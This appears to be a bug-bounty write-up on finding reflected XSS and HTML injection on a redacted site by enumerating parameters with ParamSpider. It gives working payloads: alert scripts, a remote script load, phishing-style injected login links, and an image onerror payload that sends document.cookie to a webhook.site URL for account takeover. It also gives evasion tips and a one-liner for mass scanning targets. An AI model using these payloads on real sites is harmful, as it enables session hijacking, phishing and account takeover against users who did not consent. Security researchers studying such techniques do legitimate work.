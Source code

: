 Next, I utilized ==Param Spider== to gather all possible parameters. The command I used was:


```bash
paramspider -d jp.redacted.com -s  (to list in the terminal all possible parameters0
```

This command listed all possible parameters in the terminal. Among them, I discovered a parameter called **s=**, which allowed me to execute reflected XSS (RXSS) with a simple payload:

```html
<script>alert(1)</script> or try: <script/src=//Ǌ.₨></script>
```

or simple HTMLi:

```html
<a href="https://Google.com">Login Here</a>

or

<h3><mark><a href="https://example.com">e x a m p l e . c o m</a></mark></h3>

The exploit URL for this may look like: https://www.nasa.gov/? search=%3Ca+href%3D%22https%3A%2F%2FGoogle.com%22%3E+Login+Here%3C%2Fa%3E
```

![None](https://miro.medium.com/v2/resize:fit:700/1*I8ZS_Y9jQPRh6tgLJle3fw.gif)

![](https://miro.medium.com/v2/resize:fit:700/1*RoZet6wDPJj_WVBnv9x3iQ.png)

						RXSS


Once I got I tried to escalate it to the ATO using a simple payload

```html
<img src="x" onerror=document.location=%27https://webhook.site/790fbd5e-8cc4-441e-9a81-6ac18f40cb5f?c=%27+document.cookie;">

#if it dosen't work, try with null byte injection or base64 encode
```

### Finding XSS Vulnerabilities 🔧

#blind_xss 


```bash
paramspider -d target.com | qsreplace '"/><script>confirm(1)</script>' > xss.txt  


cat xss.txt | while read url; do curl --silent --path-as-is --insecure "$url" | grep -qs "<script>confirm(1)" && echo "$url \\033[0;31mVulnerable\\n" || echo "$url \\033[0;32mNot Vulnerable\\n"; done
```

> repo: https://github.com/devanshbatham/ParamSpider

![[Pasted image 20250414202923.png]]
